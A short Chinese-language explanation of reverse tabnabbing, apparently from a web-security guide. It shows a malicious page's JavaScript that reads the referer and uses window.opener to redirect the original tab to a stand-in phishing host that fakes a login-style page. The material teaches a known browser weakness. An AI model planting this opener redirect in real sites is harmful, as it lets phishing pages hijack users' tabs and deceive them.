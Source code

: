 在你的网站 https://example.com 上存在一个链接：
<a href="https://an.evil.site" target="_blank">进入一个“邪恶”的网站</a>


用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。
并且，这个网站上包含着类似于这样的 JavaScript 代码：
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);


此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了。
